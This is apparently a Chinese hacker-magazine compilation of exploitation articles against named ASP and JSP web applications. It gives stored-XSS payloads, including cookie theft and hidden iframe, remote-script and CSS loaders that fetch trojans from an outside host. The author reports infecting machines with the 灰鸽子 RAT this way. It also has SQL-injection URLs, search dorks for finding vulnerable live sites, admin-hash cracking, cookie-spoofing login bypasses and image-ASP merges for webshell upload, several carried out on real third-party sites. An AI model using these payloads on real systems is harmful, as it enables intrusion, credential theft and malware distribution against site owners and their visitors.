一直以来，新闻练练看侧重点都是放在 WEB 漏洞上，从 ASP 到 PHP，再到 JSP 的，我们都有涉及；但是一直以来，我们涉及到的系统漏洞不是很多，一来是系统漏洞复杂，不容易利用；二来是有些系统漏洞被发现了，却被少部分人掌握，不泄出来，使得我们没有办法尝鲜。这次幸亏 Lenong 兄弟无私地分享了自己发现的漏洞，并把过程和方法讲述得很清楚，小编代表读者先谢了。

## JSP 系统中的异常处理跨站及跨站详解

曾云好

- 从本文中你可以学到：
- 1、JSP 系统中的跨站
- 2、跨站的原理和利用详解

作为 SUN 公司推出的一种动态 WEB 编程技术，Java Server Page（JSP）现在得到越来越多程序员的青睐，它继承了 Java 的各种优点。下面是一个典型 Java 软件的开发过程：

- 1. 编写源代码
- 2. 通过编译软件（如 J2SDK 等）编译源代码，编译后产生类文件（class 文件）。
- 3. 将软件的所有类和一个清单文件一起打包，生成包裹文件。
- 4. 最后通过混淆器把所有的文件混淆，以防止被反编译。

上面的过程也同样适合 JSP 应用程序，而且目前大部分 JSP 系统开发也主要是上述流程。相对于 ASP 和 PHP 来说，其安全性一般来说要高一些。但这不意味着它就没有漏洞，今天就结合国内一个功能比较齐全的鲤鱼论坛来谈谈在 JSP 中因异常处理不当而引起的跨站漏洞，这样的异常处理不当在其他系统中也是普遍存在的。鲤鱼论坛是一个非常不错的系统，采用了目前比较先进的 Java 技术，如内置 C3P0、proxool、dbcp 数据库连接。池；内置对 JDBC 进行初步封装组件；中间层应用 OSCache 进行数据对象缓存，支持 EHCache 等等。但是有一些地方可能是由于程序员的疏忽，出现了一些跨站漏洞，最典型的就是异常处理的过程所导致的，下面就来仔细分析下其跨站漏洞。

## 一、自定义头像跨站

在个人修改资料的页面中提供了一个自定义头像的功能，我们可以在自定义头像的输入框输入头像的地址。这个漏洞出现的原因是 JSP 中的异常处理不当而引起的，其处理代码是：

```jsp
<B>关于自定义头像</B>：
<BR>
你也可以在这里给出你自定义头像的 URL 地址，头像的高度和宽度（像素）。如果不想要自定义头像，请将相应栏目全部留空！ </font></td>
<td width="60%">   <font color="<%=tableContentColor%>">
<%  int startP=(picURL+"Image").length();
    int oldFaceNum=0;
    try{
        oldFaceNum = Integer.parseInt(theUser.getFace().substring(startP,startP+2));
        //取得输入的自定义头像的数据，并定义了长度
    }
    catch(Exception e){   //异常处理
        try{
            oldFaceNum = Integer.parseInt(theUser.getFace().substring(startP,startP+1));
        }
        catch(Exception e1){
            oldFaceNum=1;
        }
    }
%>
..............................省略代码
</select>&nbsp;&nbsp;&nbsp;预览：
" width="<%=theUser.getWidth()%>" height="<%=theUser.getHeight()%>">
```

从上面取得自定义头像的异常处理代码中可以看到，它只是判断是否输入了自定义头像，而没有去检查输入的数据是否合法，只要存在数据即可不触发异常条件。所以这里虽然有一个异常处理代码，但是对跨站确认没有什么影响。我们在自定义头像的输入框中输入最常见的 IMG 跨站代码 `javascript:alert("自定义头像跨站")` 后并没有产生跨站效果，事后我查看返回的客户端代码，发现是这样的代码：``。可以发现是被双引号给闭合了，所以要实现跨站就要把双引号去掉。可以输入 `"#" onerror=alert('自定义头像跨站') "` 来避开双引号的封锁。那么就实现了跨站，如图 1 和图 2 所示。


## 二、投票跨站

在注册会员后不仅可以发表帖子，该系统还可以发表投票，如图 3 所示。


在投票处却出现了跨站，可能是程序员认为这个没什么危险吧。不过对我们来说只要没有把数据过滤干净，那么就有可能，具体的代码如下：


```jsp
stats="发表投票";
out.println(headLine(forumID,forumName,forumLogo,theForum.getForumType(),2,stats));
//在得到客户端的数据后，就直接显示出来，并显现已投票。数据没有过滤
if (foundErr) {
    throw new Exception(errMSG);
}else{
    ............省略代码
<td width="86%"><font color="<%=tableContentColor%>">
<input name="subject" size=60 maxlength=80 class=FormClass>&nbsp;&nbsp;<font color="red"><strong>*</strong></font>不得超过 50 个汉字<INPUT TYPE="hidden" name="forumType" value="<%=response.encodeURL(theForum.getForumType())%>">
<INPUT TYPE="hidden" name="skin" value="">
<tr bgcolor="<%=tableBodyColor%>">
<td width="14%"><font color="<%=tableContentColor%>"><b>投票项目 </b> <br>
<li>每行一个投票项目，最多 10 个</li>
<li>超过自动作废，空白自动过滤</li><br>
<input type="radio" name="voteType" value="0" checked>单选投票<br>
<input type="radio" name="voteType" value="1">多选投票</font></td>
<td width="86%"><textarea name="vote" cols="65" rows="8"></textarea>
```

我们可以先发表一个这样的投票选题，在我们发表一个投票选题后，系统就直接把投票的选题显示出来。如果打开这个页面就表示已经投票了。通过上面的代码，就可以发现它是直接通过 out.println 处理，同样也是只要输入了数据就不触发异常，而没有考虑到其是否含有攻击代码。所以这里我们只要输入跨站代码 `<script>alert("投票跨站")</script>` 或者 `</img>` 就可以实现跨站了，如图 4 和图 5 所示。


## 三、快速回复跨站

注册用户可以对文章进行一些回复，这是论坛最基本的功能。这里有两种回复功能，其中一种是快速回复，但却没有处理好参数，出现了跨站，代码如下：

```jsp
String errMsg="";
try{
    com.bcxy.bbs.forum.Forum theForum=ForumFactory.getForum(forumID);
    String url=theForum.addMSG(request,response);
    stats=theForum.getForumType()+"回复成功!";
    out.println(headLine(forumID,forumName,forumLogo,theForum.getForumType(),2,stats));
    //没有过滤就显示出来了，漏洞出现。
    ..................省略代码
<TD noWrap width=175>你的用户名：</TD>
<TD><INPUT maxLength=25 size=15 value="<%=userName%>" name="userName">
<A href=reg.jsp>还没注册?</A> 密码：
<INPUT type=password maxLength=13 size=15 value="<%=userPassword%>" name="userPassword">
<A href=lostpass.jsp>忘记密码?</A>
..................省略代码
<INPUT TYPE=checkbox value=0 name=emailFlag>
邮件回复 <INPUT type=checkbox CHECKED value=1 name=signFlag>
显示签名 </TD><TD width="100%">
<input type=Submit value=OK!发表我的回应帖子 name=Submit>
&nbsp;<input type=reset name=Clear value=清空内容! >
[<font color=&alertFontColor&>Ctrl+Enter 直接提交帖子</font>
```

通过上面的代码可以知道回复帖子的框架，如图 6 所示。上面的代码在得到客户端的数据后，只是写了一个判断是否输入数据的异常处理代码，而没有管数据是否合法。所以我们只要在文本框中输入代码 `<script>alert("快速回复跨站")</script>` 就可实现跨站了，如图 7 所示。


## 四、再谈跨站

应编辑的要求（天涯：我也不是为了读者着想嘛！），我在这里给一些初学者讲解一下跨站漏洞，很多初学者不明白跨站到底有什么作用，对弹出一个这样的对话框也不知道是干什么的。针对这种情况，我就详细地来说一下跨站漏洞。

跨站全称是跨站脚本，英文缩写是 XSS。这是一种危害比较大的漏洞，之所以叫跨站脚本，是因为跨站脚本执行漏洞只有通过别人浏览网站才能达到攻击效果，这种攻击具有一定的隐蔽性，是属于典型的被动式攻击。从本质上来讲，XSS 漏洞产生的原因是 HTML 的注入问题，我们没有对用户输入的数据进行严格的过滤就进入数据库，那么用户在浏览时，数据就直接从数据库中取出来返回给来访问的用户。如果我们输入一个 HTML 代码进去，那么其他用户在浏览的时候，我们可以通过这些 HTML 代码间接地控制用户的浏览器，按照用户的代码去执行某件事，比如打开指定的网站等等。浏览器之所以会执行我们输入的 HTML 代码，是因为浏览器的功能就是解释 Web 服务器发过来的 HTML 代码，而不管 HTML 中的数据是否合法，以及哪些应该执行、哪些不应该执行。利用跨站我们可以窃取用户的敏感信息，如 cookies；还可以让用户打开我们指定的网页，而这个网页通常都是我们的木马地址，让木马自动下载到用户的机器上，这就是我们常说的挂马。

我们知道 HTML 里的代码执行时都利用 HTML 标记来标识，浏览器遇到一个以 `<` 开头的标签时就会认为产生了一个 HTML 标记，它就会引用自己内部的机制去响应和解释这些标签。浏览器的所有输出操作都是由 `<` 和 `>` 标记来控制的，它只是解释这些标记并且产生动作或者把结果返回给用户，其他的都当成普通字符显示在浏览器上。同样我们的 XSS 也要用到标记 `<` 和 `>`，所以对于跨站的分类就从标签上分类比较合适。一种是用户需要输入标记 `<` 和 `>` 而引起的跨站，这种漏洞非常普遍，比如输入 `<script>alert("cmd")</script>`，如果要窃取用户的信息，如 cookies，那么就输入 `<script>alert(document.cookie)</script>`，就可以看见别人的 cookies 了，这类漏洞用户都要输入标记 `<` 和 `>`。而另一类是用户不需要标记 `<` 和 `>`，前面的自定义头像就是属于这类，实质上借助了系统提供的标记来达到攻击的目的。

上面我已经说了，跨站普遍运用在窃取 cookie 和挂马上，下面我就详细地来说一下这两方面。

### 1. 窃取 cookie

我们用来窃取 cookie 的代码是 `<script>alert(document.cookie)</script>`，先来解释一下这段代码，alert() 方法是弹出一个信息对话框，document 是一个文档对象，它表示浏览器中要显示的 HTML 文档，它是 JavaScript 编程中最重要的对象之一。Document 对象有很多属性，cookie 就是其中之一，它允许读写 HTTP 的 cookie。所以整条代码意思就是在一个信息对话框中显示当前文档的 cookie 值。


在利用漏洞时，可以先输入窃取 cookie 的代码，等我们登录系统的时候就会弹出一个信息对话框，里面显示都是当前登录用户的 cookie。我在本地架设了一个系统，用的是 admin 登录的，等我一登录就显示了 admin 用户的 cookie 值，如图 8 所示。

### 2. 挂马

既然存在跨站漏洞，那也可以输入 HTML 代码，而我们的挂马用到的代码也同样符合这些要求。挂马就是在用户打开一个网页的时候，同时也把我们木马网页打开，当然木马网页是隐藏起来的，一般用户是看不见的，等打开木马网页之后，我们的木马就被下载到了对方的电脑上了，如果免杀做得好的话，那么就应该很快就可以得到肉鸡。最常用的挂马技术有如下三种。

- ①利用动态框架挂马，代码为 `<iframe src="你的木马地址" width=0 height=0></iframe>`。这种挂马技术有一个缺点是隐蔽性不够，如果懂 HTML 的人可以很快查出我们的木马所在地，如果再利用反编译详谈的话，那基本上这个木马就废了。所以目前不推荐使用了，隐蔽性不够。
- ②JS 挂马，代码为 `<script src=http://www.xxx.com/muma.js></script>`，而在 muma.js 文件中可以写入 `document.write('<iframe src="网页木马地址" width="0" height="0" scrolling="no" frameborder="0"></iframe>');`。相对于上面这种，其隐蔽性加强了，而且可以对其进行加密。
- ③CSS 挂马，代码为 `<link href="http://xxxxx.xxxxx/css.css" rel="stylesheet" type="text/css" />`，而 CSS 中的内容为 `body { background-image: url(javascript:document.write("<script src='http://www.xxx.com/muma.js'></script>")) }`，而 muma.js 文件中的内容和 JS 挂马中的内容是一样的，那么这种挂马技术就更加隐蔽了。

通过上面的讲解，相信大家已经对跨站漏洞的利用有了一定的认识，为了配合上面的挂马理论，我就配置了一个灰鸽子到网上挂了下马，采用的是 CSS 挂马，发现效果还是非常不错的，不到一小时就上了几台肉鸡，如图 9 所示。

## 五、总结

上面我先通过对 JSP 系统中的异常处理进行了漏洞分析，并在后面详细讨论了跨站漏洞的作用。上面分析的鲤鱼系统是严格遵循上面所说的 Java 流程来的，所以很多代码是无法提供的，因为它用了混淆器把代码混淆了，也无法反编译，其他基于这种方式的系统也是一样的。但是对于安全意识比较高的朋友，看到上面的代码就知道是存在安全问题的。我们知道异常处理代码就是处理一些异常的，包括安全。但这里的异常处理只是简单地判断用户是否输入了数据，而没有涉及到参数本身的问题，也就是说只要用户输入数据就不发生异常，更没有对用户输入的数据是否合法进行检测。


以我们输入跨站代码也不发生异常，出现漏洞也就很自然了。我也看过一些基于 HTML+JavaScript+JSP 构造的 JSP 系统，这样的系统和其他脚本语言一样存在非常多的问题，如源代码泄露等等。但是如果严格按照上面给出的 Java 软件开发流程来开发 JSP 系统，那么安全性会提高非常多。至少源代码只能看到一部分，需要很强的黑箱测试能力，才能发现更多的安全问题。但是不管是采用哪种方法开发系统，如果参数没有过滤的话，就有可能被攻击。

> 编辑点评：JSP 相对于 ASP 和 PHP 来说还是比较安全的，但是一样是 CGI，只要是程序写得不严谨，只要写程序的程序员思路混乱，就会或多或少地留下一些 BUG，只要我们能抓住一个就可以把对方置于死地。另外作者归纳总结的跨站原理和利用方法都比较通俗和实用，懂了原理，才能体会个中实质，才能在利用的时候得心应手。

## 注入——嘉缘人才管理系统

ipconfig

- 从本文中你可以学到：
- ASP 漏洞的代码分析
- 一般漏洞的利用

嘉缘人才管理系统是一套网上人才招聘系统，基于 Win32 平台，采用 ASP+Access 运行环境，系统人性化设计和管理方便的后台系统，同时设计个性化首页，不仅可以让不具备网络知识的人员轻松地操作管理，而且可以节约后台管理所需的人力资源。可惜的是，写这套系统的程序员似乎不太注意安全，导致 SQL 漏洞的产生。

## 一、漏洞分析

在 job.asp 的 4-14 行有这样的代码：

```vbscript
<% uid=request("uid") '取得参数uid
id=request("id") '取得参数 id
set rs=server.createobject("adodb.recordset")
sql1="update zp set click=click+1 where id="&id&" and uname='"&uid&"'"
rs.open sql1,conn,1,1
sql2="select * from zp where id="&id&" and uname='"&uid&"'" '将取得参数放入 SQL 查询
rs.open sql2,conn,1,1 %>
<% if rs.eof or rs.bof then
response.write "<SCRIPT language=JavaScript>alert('对不起，该用户不存在或已被删除！');"
response.write "javascript:window.close();</SCRIPT>"
end if %>
```


代码中取得的 uid 和 id 没有经过任何过滤就放入 SQL 查询，我在本地用 and 1=1 和 and 1=2 测试，如图 1、图 2。

其实这套系统的其他文件也有注入，不过这个最简单，而且可以用工具注入，下面我们去网上找个站来测试下。


## 二、漏洞利用

用 “Power by Jyjms v2.15” 做关键字到 Google 搜索可以找到很多用这套系统的站，如图 3。

我找了个 http://www.*****.net/job/main/index.asp 来测试，点击首页的“个人求职”→“招聘职务”中的链接，如图 4、图 5。

拖出我们的工具 Domain，把它原有的表名列名取消掉，添加表名 “T_admin” 列名 “F_UserName” 和 “F_password” 就可以注入了，如图 6、图 7。

用得到的 MD5 密码到 http://www.xmd5.net 破解，用破解的密码登录后台 admin/Admin_index.asp，在“网站基本设置”的上传文件类型添加 “,asp”，如图 8。


| 职务级别 | 招聘人数 |
| :--- | :--- |
| 销售经理/副经理/主任 | 3 |

图 5 招聘职务

在本地用 `copy /b 1.jpg+1.asp 2.asp` 命令合成 asp 木马，如图 9。


然后到人才栏目管理上传 asp 木马，编辑源码就得到 webshell 了，如图 10、图 11。


## 三、总结

文章没有什么技术含量，主要是利用注入，第一次写注入的文章，写得不好，大家多多包涵，有什么问题请到《黑客手册》上提问，我的 ID 是 ipconfig。

**编辑点评：** 很高兴看到越来越多的朋友喜欢上找漏洞，其实找漏洞并不是简简单单地看看代码就能找到的，其涉及到对别人代码的理解和流程的掌握，也是对自己思维严谨性的磨练，多写这样的文章，对你以后自己写程序也有很大的帮助。

## 对奇迹 SF 花非花[L.S.T]&&[I.S.T]
### ——天使之翼 MU 程系的突破

### 从本文中你可以学到：

- 1、ASP 漏洞分析
- 2、注射漏洞的利用

### 一、前言

春节要到啦，我在这里先拜个早年。春节有些朋友可能会玩点游戏，偶独钟情于奇迹，记得高考前 20 多天，天天泡吧就玩奇迹（小朋友切勿模仿）……预备春节玩游戏，所以就找了套奇迹 SF 系统来研究一下……

## 二、程系漏洞

这套程序的作者称为程系，虽叫着别扭，但是尊重作者，以程系称之。能写出一套程序出来，而且与共享，已经很不错了，所以不管程序写得如何，我们最起码的尊重应该要有！

### 1. 初探碰壁

这套程序的安全性还不算太差，大部分页面都被它过滤得很死，拿个例子说明一下：

```asp
if request.querystring("art_id")="" then
founderr=true
errmsg=errmsg+"<br>"+"<li>请指定操作的对象! "
else
if not isinteger(request.querystring("art_id")) then
founderr=true
errmsg=errmsg+"<br>"+"<li>非法的内容 id 参数。"
end if
end if
if request.querystring("cat_id")="" then
founderr=true
errmsg=errmsg+"<br>"+"<li>请指定操作的对象! "
else
if not isinteger(request.querystring("cat_id")) then
founderr=true
errmsg=errmsg+"<br>"+"<li>非法的文章分类 id 参数。"
end if
end if

call showart_body()
```

通过 request.querystring 方法获取客户端传送过来的 art_id 和 cat_id 的值，并用 isinteger 来过滤，如果有错误，就输出“请指定操作的对象”“非法的文章 id 参数”等。再执行 showart_body() 函数，showart_body() 函数的内容存在于 showart_body.asp 中如下：

```asp
sub showart_body()
openarticle
sql="select * from art where art_id="&request.querystring("art_id")
```

```asp
set rs=server.createobject("adodb.recordset")
rs.open sql,conn,1,1

<%sql="select cat_id,cat_name from a_cat where cat_id="&rs("cat_id")
set rs1=conn.execute(sql)%>
```

获取得到的 art_id 和 cat_id 都参与了 SQL 查询，但是参数的值都被 isInteger 过滤掉了，所以这里的漏洞也因此而避免了，而且程序大部分都用一些 ASP 函数过滤掉了。

### 2. 注入漏洞

### (1). 明显漏洞

程序的 tuku 目录下有一 view.asp 文件，其中有代码如下：

```asp
1. id=Request.Querystring("id")
2. if id="" then
3. Response.Write("<script language=javascript>alert('非法访问!');window.location.href='index.asp'</script>")
4. end if
5. if instr(id, "'") or instr(id, "select") or instr(id, "in") or instr(id, "from") or instr(id, "len") or instr(id, "where") or instr(id, "or") or instr(id, "and") then
6. Response.Write("<script language=javascript>alert('你想做什么?');window.location.href='check.htm'</script>")
7. Response.End
8. end if
'在这里过滤 TMD 的不良字符
9. conn.execute("update imgbook set click=click+1 where ID=" & id)
10. sql="select * from imgbook where ID="&id
11. set rs=server.createobject("adodb.recordset")
12. rs.open sql,conn,1,1
13. if rs.eof then
14. Response.Write("对不起，没有此编号的相片!!!")
15. Response.end
16. end if
```

1-4 行，这里也是通过 Request.Querystring 方法获取从客户端获取参数 id 的值，并存入变量 id 中，如果 id 的值为空，就弹出“非法访问”对话框，并转到首页。再看 5 行吧，用函数 instr 对变量 id 的值进行过滤，分别过滤注入中常用的危险字符“'”“select”等等，如果存在这些危险字符，就弹出“你想做什么？”的对话框，再转向 check.htm 文件，这里作者有点过分了，check.htm 的内容为一个循环弹窗的函数：

```html
<script language=javascript>
alert("我 Call! 你想做什么???")
for (i=1;i<=10000000000;i++)
'循环 10000000000 弹窗，谁的机器能受得了?
{
  window.open("http://www.elhome.zj.com")
}
</script>
```

可怜我之前没读代码，测试的时候就爽了一把，还好我机器耐得住，没挂掉之前就把 TT 关了，不然我的爱机……

说远了，再回头看一下 instr 函数过滤的字符，全部是小写的，并没有过滤大写字符，所以……哈哈，只需要随便改变 instr 函数所过滤的字符中的任意一个字符为大写字母就可以绕过这个过滤了。10 行是把变量 id 存入 sql 的变量中（sql 的内容是 SQL 查询语句），11、12 行是执行 sql 的内容。通过上面的分析，可以知道，这套系统存在注入漏洞，不过构造代码的时候便要小心了，不然机器可能随时挂掉，那就恭喜发财了……

### (2). 任意删除注入漏洞

看 info 目录下的 delete.asp 文件的全部内容：

```asp
<%
If Request("id")="" Then
  Response.Write"<center>数据意外丢失！</center>"
  Response.End
End If
%>
<!--#include file="conn.asp"-->
<%
Set rs=Server.CreateObject("ADODB.Recordset")
sql="SELECT * FROM fankui Where id=" & Request("id")
rs.Open sql,conn,1,3
rs.Delete
rs.Update
rs.Close
Set rs=Nothing
Response.Redirect"manage.asp"
%>
```

此文件内容不多，不过漏洞却不少，这个文件本是超级用户用来管理网吧联盟申请帖的，但是可以看见，并无权限检查，导致我们可以任意删除申请帖；另外一个就是注入漏洞了，看这条语句：sql="SELECT * FROM fankui Where id=" & Request("id")

直接用 request 方法获取从客户端传来的参数 id 的值，而且这里难得一见地并未做任何过滤，所以我们这里就可以做注入了。

## 三、漏洞利用

### 1. 明显漏洞的利用

用 order by 函数看一下参与 SQL 查询的字段有几个（instr 函数过滤了 or，所以 order by 函数的 order 应改为大写）：

```text
http://localhost/tuku/view.asp?id=349%20ORDER%20BY%2010
```

返回出错，说明字段小于 10 个，再提交 http://localhost/tuku/view.asp?id=349%20ORDER%20BY%205，返回正常，直到


ORDER BY 7 为正常，说明参与 SQL 查询的字段有 7 个。

知道了字段数，就可以进行注入了，提交：http://localhost/host/tuku/view.asp?id=349%20And%20%201=2%20UNION%20SELECT%201,2,3,4,5,6,7%20FROM%20ADMIN，为了保证自己的机器不至于挂掉，将所有关键字改为大写替代，返回如图 1 所示：


再提交 http://localhost/tuku/view.asp?id=349%20And%201=2%20UNION%20SELECT%201,ADMIN,3,PASSWORD,5,6,7%20FROM%20ADMIN，返回如图 2 所示：

这样，用户名和密码都出来。

### 2. 任意删除网吧联盟申请帖漏洞利用

若提交 http://localhost/info/delete.asp?id=28，就删除 id=28 的网吧申请帖。而不会因权限不够而出现问题，提交 http://localhost/info/delete.asp?id=28%20and%201=2，返回如图 3 所示：

若提交 http://localhost/info/delete.asp?id=28 and 1=1 的话，这个 id=28 的帖子也会被删除，为什么？很简单，我们提交的 URL 的内容参与了 SQL 查询，而且查询结果为真！这样，就可以进行 SQL 注入了，查询为真，就删了帖子；为假就报错！

通过上面第 1 种办法，获取用户名和密码，到 http://localhost/tuku/admin/login.asp 登录，登录后里面有上传文件的地方，貌似存在上传漏洞，不过我不会手工修改 cookie 注入，有兴趣的朋友请试一试，能搞定的话，请告知一声，不胜感激！

> 编辑点评：一篇很不错的漏洞分析，利用过程也很清晰，应该都看得懂，我就不啰嗦了，看不懂的再看一遍去。


### 从本文中你可以学到：

- 1、cookies 欺骗的利用
- 2、绕过数据库检验

F-blog 是一套用 ASP 写的博客程序，已经出了第 III 版！但由于作者在 COOKIE 的验证上并不完善，致使使用这套程序的服务器安全严重受到威胁！

先看以下代码：

```asp
<%
  If request.cookies("loginID")="" Then  '获取 cookie 的值并判断是否为空
    response.redirect "admin_login.asp"  '跳转到另一个页面
  end if
%>
```

这几句代码是后台登录验证身份用的！很明显就可以看出问题：用 IF 语句判断 cookie 中 loginID 的值是否为空，如果为空的话就跳转到登录页面，否则执行下面的语句！只要我们指定 loginID 的值为任意一个数值的话就可以绕过去直接登录后台！先看本地测试的情况！

打开老兵的修改 cookie 浏览器，在修改 cookie 的地方添上“loginID=1”，然后在地址栏里添上后台地址“http://127.0.0.1/4/admin/admin_index.asp”，如图 1。

然后点连接！可以从图 2 中看到已经登录到后台，图 2。

下一步看如何获取 webshell，在后台管理有备份数据库的地方，如图 3。

本来以为只要上传图片格式的 ASP 木马，然后利用备份数据库功能备份成 ASP 文件就可以得到 webshell，但是却提示数据库文件不合法！如图 4、图 5。

看看代码是怎么验证的！

```asp
FileConnStr = "Provider = Microsoft.Jet.OLEDB.4.0;Data Source = " & Dbpath
Set Fileconn = Server.CreateObject("ADODB.Connection")
Fileconn.open FileConnStr
If Err Then
  Err.Clear
  Set Fileconn = Nothing
  response.write admin_reinfo3("<font color=""#FF0000"">出错了！数据库不合法</font>")
  Exit function
Else
```

这一部分的代码是用来检测要备份的文件能不能用打开数据库文件的方式打开，要是可以正常地打开，就执行备份语句，否则提示出错！这里可以使用数据库木马合并工具把图片格式的木马伪造成一个数据库文件！

打开数据库木马合并工具，在“网页木马文件”里选择 ASP 木马的地址，如图 6。

然后点合并，合并成功后要把保存为的文件的扩展名改成“JPG”格式，如图 7。

上传以后：  
注：上传文件支持 .gif、.jpg、.rar 为后缀的文件。

然后来到发表日志的地方，点击上传文件，把保存好的“110.JPG”文件上传！图 8。

上传成功后，再去备份数据库的地方把“110.JPG”文件备份成 asp 文件就可以得到 webshell 了！如图 9、图 10 可以看到修改后的图片木马已经可以成功备份！

访问备份后的文件得到 webshell！如图 11。

去作者的网站测试了一下！作者使用的程序和测试的一样，按本地测试的方法便很轻松地得到 webshell！如图 12。

其实这套程序已经就算不错的了，没有发现注入和跨站！但是作者在 cookie 验证上写得不够完善，使入侵者有机可乘，实在可惜！本文没什么技术含量，有不恰当之处还请高手指教！

> 编辑点评：Cookies 欺骗和 ASP 木马合成绕过数据库检测，顺利得到 WEBSHELL，使大家的思路又有了新的突破，这样的小技巧整理多了，会给你的渗透带来很大的方便。

## 注入——击垮青创文章系统

Mystery

### 从本文中你可以学到：

- 1. ASP 漏洞代码分析
- 2. 合成 ASP 木马

青创网络文章系统（QCNews）是一套基于 ASP+Access 运行环境的文章系统，最新版本是 4.13.1，该版本修复了以往的很多漏洞，安全性可以说是很好的，要不是作者疏忽，还真找不到漏洞。

### 1、SQL 注入漏洞 1

在“忘记密码”（UserLostPass.asp）中的关键代码：

```asp
if Request("method") = 3 then
  LsNewPass = Qcdn.checkStr(Trim(Request.Form("LsNewPass"))) '过滤单引号
  LsNewPass = md5(LsNewPass,16)
  userid = Request.Form("userid")

  sql = "Update article_user set [password] = '"& LsNewPass &"' where unid = " & userid '放入SQL查询
  conn.execute(sql)
  Response.write("<center>密码修改成功, 请回<a href='index.asp'>首页</a>登陆.</center>")
```

这里对 userid 没经过任何过滤就放到 SQL 查询，经典的 SQL 注入发生了！不过因为不是常规的 SELECT 查询，注入利用起来非常麻烦，不管我们的 SQL 语句是什么，都会返回一个结果“<center>密码修改成功，请回<a href='index.asp'>首页</a>登录。</center>”，这也是 Update 注入的特点，不管对错，都继续执行。这个鸡肋漏洞最多是修改会员的资料罢了，不过没关系，青创网络文章系统为我们提供了另一个漏洞。

### 2、SQL 注入漏洞 2

在“admin_UserView.asp”中的 3-32 行代码：

```asp
<%
Unid = Request("Unid") '取得 unid
Sql = "Select * from article_User where Unid = " & Unid
'放入 sql 查询
set rs = conn.execute(sql)
if rs.eof and rs.bof then
Errmsg = "<li>发现异常错误。<li>错误编号为：error 110。<li>请和青创网络联系解决问题。"
call Qcdn.Err_List(errmsg,1)
Response.end
end if
password = rs("password")
e_mail = rs("email")
question = rs("question")
answer = rs("answer")
qq = rs("qq")
msn = rs("msn")
male = rs("male")
birthYear = rs("birth")
bloodtype = rs("bloodtype")
realname = rs("realname")
country = rs("country")
province = rs("province")
city = rs("city")
phone = rs("phone")
address = rs("address")
postcode = rs("postcode")
job = rs("job")
edu = rs("edu")
school = rs("school")
rs.close : set rs = nothing
%>
```

注意这里 `Sql = "Select * from article_User where Unid = " & Unid`，Unid 没有任何过滤就放到 SQL 查询，注入又发生了！看文件名可以知道这个是管理员权限才可以访问的文件，按理应该不算漏洞，作者的疏忽，忘记加一句 `<!--#include file="admin_head.asp"-->` 来包含 admin_head.asp 验证是否为管理员访问，导致任何人都可以访问，注入漏洞也就可以利用了！

### 3、漏洞利用

用关键词“Powered by:QCDN_NEWS Version 4.13.1”


```html
<b>新密码: </b>
</td></tr>
<input name="LsNewPass" type="password" maxlength="50" id="LsNewPass" size="15" />
</td></tr>
<tr><td colspan=2 height=30 align=center>
<input type="submit" name="btStep3" value="下一步" />
</td></tr>
</table>
<input type="hidden" name="method" value="3">
<input type="hidden" name="userid" value="2">
```


到百度搜，可以搜索到几千个站，如图 1。

我随便找了 http://www.xxxxx.com/QCnews/ 来测试，访问 http://www.xxxxx.com/QCnews/admin_UserView.asp?unid=1，注意这里的 unid 是用户实际存在的 ID，我们可以从 1-20 调试下，实在不行自己注册个用户，访问“忘记密码”（UserLostPass.asp），填写资料，一直到第三步“找回密码”时，查看源文件 -> 搜索 `name="userid"`，后面的 `value="2"` 中的 2 就是 ID 值了，如图 2。

下面我用 Domain 直接猜解，如图 3。

得到 MD5 密码到 http://www.xmd5.com 或 http://www.cmd5.com 破解 -> 登录后台（admin_index.asp），这时我们可以看到“文章内容录入”传 asp 木马，当然传不上去了，我们必须合成个 asp 木马，用 copy 命令 `copy /b 1.gif+1.asp 2.gif`，如图 4。


然后把我们合成的这个马儿传上去，如图 5，接着到“恢复文章数据”恢复我们的 ASP 木马，如图 6。然后访问我们恢复的那个 ASP 文件就得到了马儿，如图 7 所示。

## 4、总结

文章没有什么技术含量，由于程序作者的疏忽导致服务器被攻陷，可见安全是不能忽视的，希望国内的安全能提高……

---

## 一鼓作气：玩穿冰点极限的黑客游戏
### KYO

从本文中你可以学到：

- 1、冰点的黑客游戏攻略
- 2、开拓思路

今天下班无聊的时候打开 lcx 的 hackbook，看他最近又收藏什么好文章没。看过之后回到他的首页看到还有个[冰点极限&海阳顶端论坛]的连接，就随手进去瞧了瞧。发现论坛改版了换成我常去的 BT 下载论坛的风格，并且数据也重新写了，置顶有个文章题目是《[开版第一贴] 第一期冰点黑客游戏》。本来没有什么兴趣的，可是我看到了奖励：10 关全过：20Q 币 + 一些 hacking 相关资料 + 后门程序若干。哈哈，有时下四国军旗，老有蓝钻踢我，都闷啊，拿到 20Q 币先申请 1 个月蓝钻尝尝踢人的滋味！

好，下面就开始了，游戏地址：`http://www2.tr4c3.com/game/default.htm`。点击进入第一关：`http://www2.tr4c3.com/game/the-one.htm`。查看源代码发现：

```vbs
if pass = "www.icehack.com" then
    window.location="error.htm"
```

那就继续查看 `http://www2.tr4c3.com/game/error.htm` 的源代码又发现关键地方是：

```vbs
pass="pass-page.htm"
enter="password"
if enter = StrReverse("lmth.eerht-3-eht") then
    pass="okpage.htm"
```

哦，原来它用了一个反向字符串字符的函数，那么 `StrReverse("lmth.eerht-3-eht")` 就等于 `the-3-three.html` 了，如图 1。

继续查看 `http://www2.tr4c3.com/game/the-3-three.html` 源代码：

```html
<td background="1.jpg"> </td>
```

有 2 个图片，全都下载下来看看。把 1.jpg 下回来浏览时发现图片上有个地址 `fake.htm`。大家过关时可能都把这个地址当作第四关了，其实我也一样，后来才发现是作者给我们开的小玩笑而已。继续浏览 `the-3-three.html` 的源代码，原来最下面还藏了一句 `<!--//Base64-->`。谢谢作者的提醒，不然我也想不到这一点，用文本方式打开 1.jpg，如图 2。

看到这个没：`JTY2JTZGJTc1JTcyJTNCYURScy2OCU3NCU2RA==` 这就是 base64 的密文。从网上下载一个 Base64.exe 来解码，得到 `%66%6F%75%72%2E%4E%2E%68%74%6D`，又是一个 unescape 加密，大家很熟悉了，我不用多说了，解密后是 `four.4.htm`。再查看 `four.4.htm` 这里是个 JScript.Encode 脚本加密，如图 3。

上面解密后是：

```javascript
function hidden(){
    var location= document.input.password.value + ".asp";
    this.location.href = location;
}
```

意思是：你在密码框输入的密码后面会跟 .asp 然后转到那个地址，显然又是一个小陷阱。可是下面的怎么也解不开。我仔细观察了下乱码，然后做了比对，发现下面的乱码最前面部分和最后面部分分别少了点东西。最前面少了 `#@^~`；最后面少了 `^#~@`。加上去后还是 JScript.Encode 脚本加密，代码如下：

```vbs
dim front,passisnum,encryptcode,encrypt,UnMd5,page
if front="ice" then
  passisnum="???????"
  encryptcode=md5(front&passisnum)
